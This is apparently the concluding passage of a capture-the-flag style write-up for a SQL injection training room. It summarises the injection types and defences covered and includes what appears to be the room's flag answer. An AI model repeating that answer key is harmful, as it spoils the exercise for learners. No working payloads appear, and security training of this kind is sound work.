> THM{SQL_INJECTION_MASTER}

## Task 10. Conclusion

This room covered a lot of ground. You picked up the SQL injection syntax, saw how the vulnerability occurs when apps shove user input into queries, and worked through the main SQLi types: In-Band (Error-Based and Union-Based), Blind (Authentication Bypass, Boolean-Based, Time-Based), and Out-of-Band. The four lab levels had you pulling credentials out of databases, bypassing logins, and guessing passwords one character at a time. On the defence side, you looked at prepared statements, input validation, and least privilege.

### Objectives Learned

- Identified the SQL syntax attackers use in injection payloads (UNION, LIKE, comments, information_schema)
- Understood how SQL Injection occurs when user input gets concatenated into queries
- Detected injection points by testing with special characters and watching application responses
- Exploited In-Band SQL Injection with Error-Based and Union-Based techniques to extract database contents
- Bypassed authentication using Blind SQL Injection
- Extracted data character-by-character using Boolean-Based and Time-Based Blind SQL Injection
- Understood Out-of-Band SQL Injection and DNS/HTTP exfiltration
- Applied remediation strategies: prepared statements, input validation, and least privilege

### Questions

I have completed the SQL Injection room!

> No answer needed

---